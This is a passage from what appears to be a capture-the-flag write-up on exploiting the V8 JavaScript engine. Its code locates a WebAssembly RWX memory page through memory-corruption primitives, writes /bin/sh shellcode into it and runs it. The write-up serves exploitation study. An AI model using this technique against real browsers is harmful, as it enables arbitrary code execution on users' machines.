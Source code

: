 ```
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

// OUTPUT
[+] RWX Wasm page addr: 0x7b54b655000
```

Therefore, we just need to place our shellcode to the starting address of the `RWX` page and call the `main` function.

```
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
    dataview.setUint32(4*i, shellcode[i], true);
    }
}

// reference: https://www.anquanke.com/post/id/267518?hmsr=joyk.com&utm_source=joyk.com&utm_medium=referral#h3-14
var shellcode = [
  0x99583b6a, 0x2fbb4852, 
  0x6e69622f, 0x5368732f,
  0x57525f54, 0x050f5e54
];

copy_shellcode(rwx_page_addr, shellcode);
f();
```
